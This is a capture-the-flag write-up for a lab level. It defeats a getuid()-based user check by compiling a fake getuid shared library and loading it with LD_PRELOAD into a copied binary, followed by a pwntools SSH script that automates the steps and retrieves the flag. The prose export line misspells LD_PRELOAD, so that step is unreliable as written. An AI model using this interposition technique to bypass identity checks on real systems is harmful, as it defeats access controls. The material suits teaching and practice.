

# Level 13

## Discription

> There is a security check that prevents the program from continuing execution if the user invoking it does not match a specific user id. \
\
> To do this level, log in as the level13 account with the password level13. Files for this level can be found in /home/flag13.
> 
## Source Code

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <sys/types.h>
#include <string.h>

#define FAKEUID 1000

int main(int argc, char **argv, char **envp)
{
  int c;
  char token[256];

  if(getuid() != FAKEUID) {
      printf("Security failure detected. UID %d started us, we expect %d\n", getuid(), FAKEUID);
      printf("The system administrators will be notified of this violation\n");
      exit(EXIT_FAILURE);
  }

  // snip, sorry :)

  printf("your token is %s\n", token);
  
}
```

## Solution

Code is pretty straight forward, it checks for UID and if UID is 1000 then it prints out the token else it prints out a warning and exit.

```C
#define FAKEUID 1000

int main(int argc, char **argv, char **envp)
{
  int c;
  char token[256];

  if(getuid() != FAKEUID) {
      printf("Security failure detected. UID %d started us, we expect %d\n", getuid(), FAKEUID);
      printf("The system administrators will be notified of this violation\n");
      exit(EXIT_FAILURE);
  }

  printf("your token is %s\n", token);
  
}
```

In one or the other way we have to defeat getuid function. But there is no classic bug or vulnerability present in getuid function.

We can do it either by reversing using any debugger or We can replace the getuid function with our malicious getuid function. 

Let's do this by changing getuid function behaviour. We can do this by injecting our shared library containg getflag function into flag13 program.

We can use LD_PRELOAD environment variable to load our shared library into flag13 program. LD_PRELOAD library loads before any other library.

So lets make a C program that have getuid function which return 1000. 

```c
#include <stdio.h>
getuid() {
    return 1000;
}
```

 Compile it as shared library using GCC

```bash
gcc /tmp/getuid.c -shared -o /tmp/fakeuid.so
```

Export it to LD_PRELOAD environment variable

```bash
export LDPRELOAD="/tmp/fakeuid.so"
```

Remember, this exploitation technique works only when the binary is dynamically linked and SUID is not set on the binary as LD_PRELOAD does not work with SUID set binary.

But in our case SUID is set, what we can do here is, copy the flag13 binary to another location. The copied binary will not have SUID set.



## Python

```python
#!/usr/bin/python3

from pwn import *
from sys import argv,exit

if len(argv) < 2:
	sys.exit("Target IP Missing") 

level13 = ssh(host=argv[1],user='level13',password='level13')
level13_shell = level13.shell('sh')
level13_shell.sendline("cp /home/flag13/flag13 /tmp/flag13")
level13_shell.sendline('echo -e "#include <stdio.h>\\ngetuid() {\\n\\treturn 1000;\\n}" > /tmp/getuid.c')
level13_shell.sendline('gcc /tmp/getuid.c -shared -o /tmp/fakeuid.so')
level13_shell.sendline('export LD_PRELOAD="/tmp/fakeuid.so"')
level13_shell.sendline('/tmp/flag13 > /tmp/pass')

password = (level13.download_data('/tmp/pass')).decode()[14:-1]

level13_shell.kill()
level13.close()

log.success(f'Got flag13 password : {password}')

flag13 = ssh(host=argv[1],user='flag13',password=password)
flag13_shell = flag13.shell('sh')
flag13_shell.sendline("getflag")
flag13_shell.interactive(prompt="")
```
